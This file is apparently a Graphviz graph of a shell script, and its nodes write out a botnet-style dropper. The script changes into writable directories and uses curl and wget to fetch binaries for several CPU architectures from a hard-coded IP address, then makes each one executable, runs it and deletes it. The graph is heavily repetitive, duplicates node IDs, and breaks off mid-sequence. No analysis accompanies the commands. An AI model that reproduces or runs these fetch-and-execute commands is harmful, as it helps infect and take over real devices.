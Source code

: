 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="curl -O http://185.148.39.193/lkjghsdfkljgfhmipslksdhjfklsjdhf "];
10 -> 12 [label=";,"];
12 [label="wget http://185.148.39.193/lkjghsdfkljgfhmipslksdhjfklsjdhf "];
12 -> 14 [label="||,"];
14 [label="chmod +x lkjghsdfkljgfhmipslksdhjfklsjdhf "];
14 -> 16 [label=";,"];
16 [label="./lkjghsdfkljgfhmipslksdhjfklsjdhf "];
16 -> 18 [label=";,"];
18 [label="rm -rf lkjghsdfkljgfhmipslksdhjfklsjdhf "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="curl -O http://185.148.39.193/lkjghsdfkljgfhmpsllksdhjfklsjdhf "];
30 -> 32 [label=";,"];
32 [label="wget http://185.148.39.193/lkjghsdfkljgfhmpsllksdhjfklsjdhf "];
32 -> 34 [label="||,"];
34 [label="chmod +x lkjghsdfkljgfhmpsllksdhjfklsjdhf "];
34 -> 36 [label=";,"];
36 [label="./lkjghsdfkljgfhmpsllksdhjfklsjdhf "];
36 -> 38 [label=";,"];
38 [label="rm -rf lkjghsdfkljgfhmpsllksdhjfklsjdhf "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="curl -O http://185.148.39.193/lkjghsdfkljgfhsh4lksdhjfklsjdhf "];
50 -> 52 [label=";,"];
52 [label="wget http://185.148.39.193/lkjghsdfkljgfhsh4lksdhjfklsjdhf "];
52 -> 54 [label="||,"];
54 [label="chmod +x lkjghsdfkljgfhsh4lksdhjfklsjdhf "];
54 -> 56 [label=";,"];
56 [label="./lkjghsdfkljgfhsh4lksdhjfklsjdhf "];
56 -> 58 [label=";,"];
58 [label="rm -rf lkjghsdfkljgfhsh4lksdhjfklsjdhf "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="curl -O http://185.148.39.193/lkjghsdfkljgfhx86lksdhjfklsjdhf "];
70 -> 72 [label=";,"];
72 [label="wget http://185.148.39.193/lkjghsdfkljgfhx86lksdhjfklsjdhf "];
72 -> 74 [label="||,"];
74 [label="chmod +x lkjghsdfkljgfhx86lksdhjfklsjdhf "];
74 -> 76 [label=";,"];
76 [label="./lkjghsdfkljgfhx86lksdhjfklsjdhf "];
76 -> 78 [label=";,"];
78 [label="rm -rf lkjghsdfkljgfhx86lksdhjfklsjdhf "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="curl -O http://185.148.39.193/lkjghsdfkljgfharmlksdhjfklsjdhf "];
90 -> 92 [label=";,"];
92 [label="wget http://185.148.39.193/lkjghsdfkljgfharmlksdhjfklsjdhf "];
92 -> 94 [label="||,"];
94 [label="chmod +x lkjghsdfkljgfharmlksdhjfklsjdhf "];
94 -> 96 [label=";,"];
96 [label="./lkjghsdfkljgfharmlksdhjfklsjdhf "];
96 -> 98 [label=";,"];
98 [label="rm -rf lkjghsdfkljgfharmlksdhjfklsjdhf "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="curl -O http://185.148.39.193/lkjghsdfkljgfharm7lksdhjfklsjdhf "];
110 -> 112 [label=";,"];
112 [label="wget http://185.148.39.193/lkjghsdfkljgfharm7lksdhjfklsjdhf "];
112 -> 114 [label="||,"];
114 [label="chmod +x lkjghsdfkljgfharm7lksdhjfklsjdhf "];
114 -> 116 [label=";,"];
116 [label="./lkjghsdfkljgfharm7lksdhjfklsjdhf "];
116 -> 118 [label=";,"];
118 [label="rm -rf lkjghsdfkljgfharm7lksdhjfklsjdhf "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="curl -O http://185.148.39.193/DOESNTEXISTLELEL "];
230 -> 232 [label=";,"];
232 [label="wget http://185.148.39.193/DOESNTEXISTLELEL "];
232 -> 234 [label="||,"];
234 [label="chmod +x DOESNTEXISTLELEL "];
234 -> 236 [label=";,"];
236 [label="./DOESNTEXISTLELEL "];
236 -> 238 [label=";,"];
238 [label="rm -rf DOESNTEXISTLELEL "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="curl -O http://185.148.39.193/DOESNTEXISTLELEL "];
230 -> 232 [label=";,"];
232 [label="wget http://185.148.39.193/DOESNTEXISTLELEL "];
232 -> 234 [label="||,"];
234 [label="chmod +x DOESNTEXISTLELEL "];
234 -> 236 [label=";,"];
236 [label="./DOESNTEXISTLELEL "];
236 -> 238 [label=";,"];
238 [label="rm -rf DOESNTEXISTLELEL "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="curl -O http://185.148.39.193/lkjghsdfkljgfhppclksdhjfklsjdhf "];
170 -> 172 [label=";,"];
172 [label="wget http://185.148.39.193/lkjghsdfkljgfhppclksdhjfklsjdhf "];
172 -> 174 [label="||,"];
174 [label="chmod +x lkjghsdfkljgfhppclksdhjfklsjdhf "];
174 -> 176 [label=";,"];
176 [label="./lkjghsdfkljgfhppclksdhjfklsjdhf "];
176 -> 178 [label=";,"];
178 [label="rm -rf lkjghsdfkljgfhppclksdhjfklsjdhf "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="curl -O http://185.148.39.193/DOESNTEXISTLELEL "];
230 -> 232 [label=";,"];
232 [label="wget http://185.148.39.193/DOESNTEXISTLELEL "];
232 -> 234 [label="||,"];
234 [label="chmod +x DOESNTEXISTLELEL "];
234 -> 236 [label=";,"];
236 [label="./DOESNTEXISTLELEL "];
236 -> 238 [label=";,"];
238 [label="rm -rf DOESNTEXISTLELEL "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="curl -O http://185.148.39.193/lkjghsdfkljgfhm68klksdhjfklsjdhf "];
250 -> 252 [label=";,"];
252 [label="wget http://185.148.39.193/lkjghsdfkljgfhm68klksdhjfklsjdhf "];
252 -> 254 [label="||,"];
254 [label="chmod +x lkjghsdfkljgfhm68klksdhjfklsjdhf "];
254 -> 256 [label=";,"];
256 [label="./lkjghsdfkljgfhm68klksdhjfklsjdhf "];
256 -> 257 [label=";,"];
257 [label="rm -rf lkjghsdfkljgfhm68klksdhjfklsjdhf "];
257 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="curl -O http://185.148.39.193/DOESNTEXISTLELEL "];
230 -> 232 [label=";,"];
232 [label="wget http://185.148.39.193/DOESNTEXISTLELEL "];
232 -> 234 [label="||,"];
234 [label="chmod +x DOESNTEXISTLELEL "];
234 -> 236 [label=";,"];
236 [label="./DOESNTEXISTLELEL "];
236 -> 238 [label=";,"];
238 [label="rm -rf DOESNTEXISTLELEL "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="curl -O http://185.148.39.193/lkjghsdfkljgfhm68klksdhjfklsjdhf "];
250 -> 252 [label=";,"];
252 [label="wget http://185.148.39.193/lkjghsdfkljgfhm68klksdhjfklsjdhf "];
252 -> 254 [label="||,"];
254 [label="chmod +x lkjghsdfkljgfhm68klksdhjfklsjdhf "];
254 -> 256 [label=";,"];
256 [label="./lkjghsdfkljgfhm68klksdhjfklsjdhf "];
256 -> 257 [label=";,"];
}
